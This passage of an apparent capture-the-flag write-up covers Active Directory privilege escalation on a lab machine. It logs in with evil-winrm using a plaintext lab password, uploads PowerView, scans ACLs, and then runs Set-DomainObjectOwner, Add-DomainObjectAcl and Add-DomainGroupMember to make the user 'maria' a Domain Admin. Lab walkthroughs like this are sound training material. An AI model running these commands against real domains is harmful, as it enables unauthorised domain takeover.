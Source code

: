 <img width="748" height="219" alt="image" src="https://github.com/user-attachments/assets/604bdb63-f5ae-4c68-90df-841f1047fbf5" />


### We connect as Maria

```
evil-winrm -i 10.10.11.132 -u "maria" -p "W3llcr4ft3d_4cls"
```

```
cd c:\programdata
```

### Here i make a new directory , becouse the powerview dident work in appdata 

```
mkdir a
```

```
cd a
```

```
upload powerview.ps1
```


```
. .\powerview.ps1
```


```
Invoke-ACLScanner -ResolveGUIDs | ? { $_.IdentityReferenceName -like 'maria' }
```

<img width="952" height="279" alt="image" src="https://github.com/user-attachments/assets/3b1cc8e5-87d7-4545-abe5-46df232a31c1" />


### Make Maria to have full control 

```
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
```

```
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights all
```

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```

<img width="823" height="172" alt="image" src="https://github.com/user-attachments/assets/0e0d3c52-6df7-4598-a3c4-b8567ff8a299" />

### After that we loggout and loggin agina 

```
evil-winrm -i 10.10.11.132 -u "maria" -p "W3llcr4ft3d_4cls"
```


### And we can read root flag in 

```
C:\Users\Administrator\Desktop
```
<img width="556" height="291" alt="image" src="https://github.com/user-attachments/assets/feb2b908-aae0-4478-9c54-464205f3f057" />






